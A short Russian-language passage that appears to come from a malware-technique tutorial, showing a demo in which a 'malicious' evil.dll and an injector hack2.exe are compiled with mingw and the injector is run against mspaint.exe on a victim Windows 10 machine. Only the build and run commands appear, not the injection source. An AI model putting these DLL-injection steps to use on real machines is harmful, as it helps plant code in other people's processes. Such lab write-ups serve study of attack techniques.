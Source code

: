 ### демонстрация 2

Давайте снова посмотрим всё в действии.    

Сначала компилируем нашу "вредоносную" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![инъекция](./images/83/2022-12-21_22-02.png){width="80%"}    

На следующем шаге компилируем наше вредоносное ПО с DLL-инъекцией:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

![инъекция](./images/83/2022-12-21_22-04.png){width="80%"}    

И наконец, запускаем его для процесса `mspaint.exe` на машине жертвы (`Windows 10 x64` в моём случае):    

```powershell
.\hack2.exe <mspaint PID>
```
